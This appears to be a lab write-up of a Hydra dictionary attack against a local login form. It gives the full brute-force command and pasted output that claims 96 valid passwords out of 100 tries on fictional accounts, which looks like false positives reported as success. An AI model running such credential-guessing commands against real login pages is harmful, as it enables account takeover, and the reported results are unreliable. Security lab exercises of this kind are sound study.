 # Dictionary Hydra Attack

### Command
I used following command to attack the webpage: 
hydra -L user.txt -P password.txt 127.0.0.1 -s 8000 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect".
There is that one part, that made it possible for me to do it and it was: -s 8000.
I was using first 127.0.0.1:8000, but it did not work for me.

### Time
Time was about 10 seconds.

### Output of the Hydra Attack

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-18 13:50:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:10/p:10), ~7 tries per task
[DATA] attacking http-post-form://127.0.0.1:8000/login:username=^USER^&password=^PASS^:F=incorrect
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: snacks4scooby
1 of 1 target successfully completed, 96 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-18 13:50:51

